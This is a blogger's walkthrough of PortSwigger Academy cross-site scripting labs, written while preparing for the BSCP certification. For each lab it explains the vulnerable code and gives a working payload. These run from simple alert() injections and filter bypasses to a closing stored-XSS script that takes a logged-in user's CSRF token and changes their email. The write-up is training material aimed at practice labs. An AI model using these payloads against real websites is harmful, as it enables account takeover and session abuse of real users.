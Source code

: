 ```yaml
---
layout: post
title:  "Portswigger XSS Labs: Full Write-Up"
categories: [xss, web-security, portswigger]
tags: [xss, dom xss, reflected xss, practitioner, apprentice]
---
```


# Apprentice and Practitioner XSS Labs
First blog in the series of *me getting my BSCP*.
Hope you enjoy and learn something.

I relied HEAVILY on this [cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet). 

Mark it.

# Apprentice Labs

## **Lab: Reflected XSS into HTML context with nothing encoded**

In this lab we first get to know the idea of XSS.

The input we enter into the search bar is injected into the HTML by the server, and the new HTML is returned (or *reflected*) to the user in the response.

If we search for `demo`, we see the link that is generated is `https://0a1c005d036c64da80b9ee4e00400014.web-security-academy.net/?search=example`.

Whoever *clicks* it, will have the word *example* in their HTML.

We can inject, for example, a `<script>` tag and inside it any code we like to run on the user’s browser.

It can be code that steals cookie, or in the case of this lab, pops an alert.

Search for `<script>alert()</script>` to solve this lab.

## **Lab: Stored XSS into HTML context with nothing encoded**

This time we have another type of XSS:

The ***Stored XSS***.

Rarer and more dangerous, since the malicious script is loaded from the app’s database and 

everyone visiting the vulnerable webpage is in danger - no need to click on any link.

It can be posted, for example, in a comment section.

Everyone who enters the comment section will have the code inside the script executed in their browser.

Post a comment with `<script>alert()</script>` to solve this lab.

## **Lab: DOM XSS in `document.write` sink using source `location.search`**

*In principle, a website is vulnerable to DOM-based cross-site scripting if there is an executable path via which data can propagate from source to sink.*

Source: our input,

and sink: a javascript function that injects this input into the DOM.

The main difference between DOM XSS and Reflected XSS is that DOM XSS occurs on the browser, with vulnerable *javascript* code, and Reflected XSS occurs on the server, with *server side* vulnerable code. Of course, in the end the malicious js that was inserted to the HTML (whether by the server, as in reflected XSS, or by the client as in DOM XSS, runs on the *client’s browser*).

We can see this javascript code in the source:

```jsx
function trackSearch(query) {
		document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
	 trackSearch(query);
}
```

*trackSearch* function uses *document.write* (that’s a sink!) to take our search value (that’s a source!) and write to the DOM.

We just need to “get out” of the **img tag** and open our very own **script tag**.

This search value:

`'">'<script>alert()</script>`

Results in:

`<img src="/resources/images/tracker.gif?searchTerms=''">` 

`<script>alert()</script>`

`'">`

We see ‘”> in the html, and our script fires:)

## **Lab: DOM XSS in `innerHTML` sink using source `location.search`**

Here’s the code this time:

```jsx
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
```

*innerHTML* injects directly into the DOM.

Searching for `<script>alert()</script>` doesn’t solve the lab:

![image.png](/assets/img/imgs-2025-07-06-XSS/image.png)

The script refuses to run inside the *<span>* tag.

We can inject the other very-famous XSS payload:

`<img src=1 onerror=alert()>`

Which tries to load an unexisting img with src=1 and when encounters an error, runs the *alert()*.

So Search for `<img src=1 onerror=alert()>` to solve the lab.

## **Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source**

Here, we need to make the "back" link alert `document.cookie`.

We have a **submit feedback** button, which leads to a form with jQuery source.

From <script> tag in the html:

```jsx
$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
```

Currently the returnPath is `returnPath=/`.

Lets change it to `javascript:alert()`.

It’s a way to run javascript code through a link.

After changing to `/feedback?returnPath=javascript:alert()` and pressing enter,

the lab is solved:)

## **Lab: DOM XSS in jQuery selector sink using a hashchange event**

We have this script in the source:

```jsx
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```

It cuts the # from the hash in the url, and scrolls into the post using the selector.

But $() is not just a selector. It can also create  [new DOM elements](https://portswigger.net/web-security/cross-site-scripting/dom-based#dom-xss-in-jquery)!

 So deliver this to the victim to solve the lab:

`<iframe src="https://0a7e00a703f1a069800a127200e50044.web-security-academy.net/#" onload="this.src+='<img src=1 onerror=print()>'">`

## **Lab: Reflected XSS into attribute with angle brackets HTML-encoded**

Here, angle brackets are encoded so we can’t inject `<script>`.

But our payload is being injected not only to a `h1` but also to a value attribute:

`<input type=text placeholder='Search the blog...' name=search value="bro">`

We can escape it and create another attribute that will fire our code.

For example:

`" autofocus onfocus="alert()`

## **Lab: Stored XSS into anchor `href` attribute with double quotes HTML-encoded**

The goal here is to call the `alert` function when the author name is clicked.

The solution is simply put `javascript:alert()` as the website URL.

This is a way to run js code through a link:)

## **Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded**

We can see that our input is injected into a js script:

 `var searchTerms = 'lol';`

So we just need to break out the string, inject our `alert` and comment out the rest.

Search for  `'; alert()//`

to win:)

# Practitioner Labs

## **Lab: DOM XSS in `document.write` sink using source `location.search` inside a select element**

We can see that we don’t have any log in or comments section.

By viewing any of the products and looking on the source, we can see this code:

```jsx
  var stores = ["London","Paris","Milan"];       
  var store = (new URLSearchParams(window.location.search)).get('storeId');               document.write('<select name="storeId">');                                
  if(store) {                                    
  document.write('<option selected>'+store+'</option>');                                }                                
```

Apperantly, we can add stores to the options by providing the new store’s name in the storeId query param.

Like `https://0a8b00230414f6e180c103ac00260024.web-security-academy.net/product?productId=3&storeId=bruh`

The store’s name gets inserted into the html directly.

So this lab can be solved by simply providing the store name `<script>alert()</script>`.

## **Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded**

The goal here is once again to pop an alert.

In the home page we see a search functionality that inserts the search term in the html.

![image.png](/assets/img/imgs-2025-07-06-XSS/image%201.png)

As the name of the lab suggests, we can’t just `<script>alert()</script>` to win.

![צילום מסך 2025-07-04 130709.png](/assets/img/imgs-2025-07-06-XSS/image9.png)

Apart from the lab’s name, we can see that angular js is used by simply looking at the source code.

From portswigger academy:

### *DOM XSS in AngularJS*

*If a framework like AngularJS is used, it may be possible to
 execute JavaScript without angle brackets or events. When a site uses 
the `ng-app` attribute on an HTML element, it will be 
processed by AngularJS. In this case, AngularJS will execute JavaScript 
inside double curly braces that can occur directly in HTML or inside 
attributes.*

ng-app is indeed used, so we don’t need those angle brackets😄

Let’s try maybe {{ alert() }}, the expression did disappear but no popup was showed.

The solution can be found on portswigger’s [XSS cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-sandbox-escapes-reflected), namely {{constructor.constructor('alert(1)')()}}.

## **Lab: Reflected DOM XSS**

Once again, the goal is to call `alert()`.

There is a search functionality that embeds our search term in the html.

We can see a link to a javascript file `searchResults.js` in the source code.

The search term is being rendered into `h1.innerText`, so it *seems* ok.

I wish that would work /search-results?search=javascript:alert()

Why would you EVER 

```
            eval('var searchResultsObj = ' + this.responseText);
```

When you can `var searchResultsObj = JSON.Parse(this.responseText)`?

Using eval is like the classical security error, and it basically allows us to run any code inside it.

Here, we control **searchTerm,** but the whole responseText is being injected into eval.

So first we have to see what it looks like and how we might be able to escape it.

I’ll start with putting a breakpoint one line after the eval, to print the searchResultObj.

![image.png](/assets/img/imgs-2025-07-06-XSS/image%202.png)


![image.png](/assets/img/imgs-2025-07-06-XSS/image%203.png)

We control only searchTerm, but that is enough. 

We can escape the JSON by searching for:

`\"}; alert(1) //`

Which makes searchResultsObj be `{results: Array(0), searchTerm: '\\'}`

And right after the var assignment, the alert executes:)

## **Lab: Stored DOM XSS**

So this time it is stored XSS, not reflected. Thus we have comment section instead of search bar.

By looking at the source code, we can see that js file named `loadCommentsWithVulnerableEscapeHtml.js` is used (nice name BTW).

This time no eval:)

```jsx
            let comments = JSON.parse(this.responseText);
```

We have our comment injected into the html, but there is a (vulnerable) escape html function.

```jsx
if (comment.body) {
                let commentBodyPElement = document.createElement("p");
                commentBodyPElement.innerHTML = escapeHTML(comment.body);

                commentSection.appendChild(commentBodyPElement);  
  }
```

And here is the vulnerable escape function:

```jsx
		function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
```

It only escapes angle brackets, but we do need angle brackets to inject <script>…

Something important to notice is that they use `replace` and not `replaceAll`.

`replace` only replaces the first occurence of the pattern.

So a payload like `<><script>alert()</script>` should work.

![image.png](/assets/img/imgs-2025-07-06-XSS/image%204.png)

Appearantly, the <script> has disappeared but it doesn’t pop.

Lets try to escape the p with:

`<></p><script>alert()</script>`

That won’t work either, because our comment is injected into <p> element directly.

After some struggle, I realized I was pretty dumb and simply used `<><img src=1 onerror="alert()"/>.`

Which worked:)

## **Lab: Reflected XSS into HTML context with most tags and attributes blocked**

So as the name suggests there is a WAF that blocks XSS attacks. 

Classic stuff like <script>print()/script> or <img src=1 onerror=print()> result in `tag is not allowed`.

We can see that also <p>, <div> and <h1> gets blocked.

However <h2> and the other h’s don’t:)

Refering to the [Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet), I took this payload:

`<h1 oncontentvisibilityautostatechange=alert(1) style=display:block;content-visibility:auto>`

because it has no other tags in it, and only changed h1 to h2  and alert() to print().

`<h2 oncontentvisibilityautostatechange=print() style=display:block;content-visibility:auto>`

But that bad boy didn’t work, not sure why.

I tried it with 

```
<script>
window.location.href ="https://0a9c00ae03c55d4d80c7032d004b0032.web-security-academy.net/?search=<h2 oncontentvisibilityautostatechange=print() style=display:block;content-visibility:auto>"
</script>
```

After some manual tweaking I decided to run the intruder to find all of the unblocked tags and attributes.

You do it by sending the request to Intruder and adding position where the tag name should be.

![image.png](/assets/img/imgs-2025-07-06-XSS/image%205.png)

In the payloads list you paste the tags’ list (taken from cheatsheet):

![image.png](/assets/img/imgs-2025-07-06-XSS/image%206.png)

After doing it and something similar for the *attributes*, we see that `<body>` is not blocked, along with the attributes:

![צילום מסך 2025-07-06 103100.png](/assets/img/imgs-2025-07-06-XSS/image10.png)

One of the few that doesnt require user interction is `onresize`.

The url we get from the cheatsheet:

[https://subdomain1.portswigger-labs.net/xss/xss.php?x=<iframe onload%3D"this.style.width%3D'1000px'" src%3D"https%3A%2F%2Fportswigger-labs.net%2Fxss%2Fxss.php%3Fx%3D<body onresize%3Dprint()>"><%2Fiframe>&context=html](https://subdomain1.portswigger-labs.net/xss/xss.php?x=%3Ciframe%20onload%3D%22this.style.width%3D%271000px%27%22%20src%3D%22https%3A%2F%2Fportswigger-labs.net%2Fxss%2Fxss.php%3Fx%3D%3Cbody%20onresize%3Dprint%28%29%3E%22%3E%3C%2Fiframe%3E&context=html)

We are going to use it in the same way.

Payload is (after replacing the src):  

<iframe onload="this.style.width='1000px'"src="https://0ad500c503252b9480e11723001f0059.web-security-academy.net?search=<body onresize=print()>"></iframe>

## **Lab: Reflected XSS into HTML context with all tags blocked except custom ones**

Going to cheatsheet, we can select custom tags.

![image.png](/assets/img/imgs-2025-07-06-XSS/image%207.png)

This time no attributes are blocked, so I chose the payload of **onfocusin** and delivered it as a script:

```
<script>
location.href = "https://0a20001c04993c1980048037008c00ba.web-security-academy.net/?search=<xss autofocus tabindex=1 onfocusin=alert(document.cookie)></xss>"
</script>
```

That it:)

## **Lab: Reflected XSS with some SVG markup allowed**

We can see here once again, that most of the tags and attributes are blocked. 

We already know that we should be looking for svg payload, and lets also use the intruder to find out what attributes are not blocked.

And we get that the `onbegin` is the only one!

The payloads for *svg animate* and *svg animatemotion* get blocked, but:

`<svg><animatetransform onbegin=alert(1) attributeName=transform>`

Works:)

## **Lab: Reflected XSS in canonical link tag**

*“A canonical URL is the main version of a webpage chosen and prioritized by search engines like Google when duplicates exist to avoid showing repetitive content in search results.”* according to [this site.](https://www.semrush.com/blog/canonical-url-guide/)

And here is the little criminal in our lab:

`https://0a2700f503ed2a3a806cbc29001400e2.web-security-academy.net/post?postId=2`

We can try to inject single quote into postId, but that result in 

`"Invalid blog post ID"`

But there is another endpoint, much more forgiving:)

/post/comment/confirmation?postId=4

By using (yet again) the cheatsheet, we can see that by injecting into the connonical link the attribute *access-key* and by having the user press the access-key (which is guarented in the lab description), the link will be used.

https://0a2700f503ed2a3a806cbc29001400e2.web-security-academy.net/post/comment/confirmation?postId=4%27accesskey=%27x%27onclick=%27alert()

Pressing Alt+X fires alert.

BUT they asked for alert in the home page.

So by some tweaks we can get the link:

https://0a2700f503ed2a3a806cbc29001400e2.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert()

Which is a solution:)

## **Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped**

This script looks strange:

```jsx
var searchTerms = 'hi';

document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">')
```

The `document.write` may look like DOM XSS, but the actuall injection is in the `searchTerms` variable (the `encodeURIComponent` pretty much prevents XSS).

Anyway, if we try to inject stuff into the input, we see that **angle brackets** and **quotes** are escaped before put into the h1.

However, the little strange script produces interesting results:

![image.png](/assets/img/imgs-2025-07-06-XSS/image%208.png)

So `</script>` actually breaks from the current `<script>` block.

I tried to use the payload `</script></script>alert();`, but that didn’t work because of syntex errors created. 

By commenting out the rest of the string, we can get the alert:)

`</script><script>alert();//`

## **Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped**

We once again have this little strange script:

```jsx
var searchTerms = 'lol';            
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
```

Trying the previous payload wouldn’t work because the angle brackets are encoded this time in the javascript.

But backslashes are not escaped:)

`\';alert(); //`

Which give us:

`var searchTerms = '\\';alert()';`

The single quote is being escaped, and the backslash we inserted is the one that “takes” the escape.

Than our alert gets in and pops!

## **Lab: Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped**

After posting a comment on one of the posts, we can see that the **website** is being injected into a strange js code inside *onclick*:

```jsx
onclick="var tracker={track(){}};tracker.track('http://google.com');"
```

We need alert to pop when the author name is pressed.

I tried to put `javascript:alert()` into the website but appearantly it gets blocked.

Because both single quote and  backslash are being escaped, there is a technique that might help us here: using [html encoding](https://portswigger.net/web-security/cross-site-scripting/contexts#making-use-of-html-encoding).

So we can use https://google.com/&apos;-alert()-&apos; as website.

Basically, the html decodes the &apos; so it becomes a single quote when the javascript fires.

## **Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped**

[https://portswigger.net/web-security/cross-site-scripting/contexts#xss-in-javascript-template-literals](https://portswigger.net/web-security/cross-site-scripting/contexts#xss-in-javascript-template-literals)

Template literals are such a beast.

Simple `${alert()}` solves the lab.

No injection, no escaping.

## **Lab: Exploiting cross-site scripting to steal cookies**

TBD when i get my fancy lil burp pro

## **Lab: Exploiting cross-site scripting to capture passwords**

TBD when i get my fancy lil burp pro

## **Lab: Exploiting XSS to bypass CSRF defenses**

**Cross-Site Request Forgery (CSRF)** is an attack that tricks a user into performing unwanted actions on a web application where they are authenticated, typically by clicking a malicious link or unknowingly sending a forged request.

We don’t actually need the user’s CSRF token to solve this lab. 

We need to create a script that exifltrate it and changes the user’s email.

No defenses: even `<script>alert(1)</script>` works.

Same CSRF token exists in the update email and post comment.

```
<script>
(async () => {
const URL = "https://0a96000d03a8608d805ba3c3005100c8.web-security-academy.net";
const response = await fetch(URL+"/my-account")
const text = await response.text();
const parser = new DOMParser();
const doc = parser.parseFromString(text, 'text/html');
const csrf = doc.querySelector('input[name="csrf"]').value;
alert(csrf);
})();
</script>
```

This code, when posted in a comment, does alert our crsf token.

So we can now make a nice post request as well, to change an email using the csrf token.

Using Burp proxy, we can see that the `POST /my-account/change-email` request has the data:

email=a%40a.com&csrf=IPmC0rHfq2fvVYTHne4MNFEfMiByavwT.

```html
<script>
(async () => {
const URL = "https://0a96000d03a8608d805ba3c3005100c8.web-security-academy.net";
const response = await fetch(URL+"/my-account")
const text = await response.text();
const parser = new DOMParser();
const doc = parser.parseFromString(text, 'text/html');
const csrf = doc.querySelector('input[name="csrf"]').value;
const data = "email=c%40c.com&csrf="+csrf;

fetch(URL+"/my-account/change-email", {
	method: "POST",
	headers: {
    "Content-Type": "application/x-www-form-urlencoded",
  },
  body: data
});
})();
</script>
```

And that should be it, now just post it as comment and lab is solved.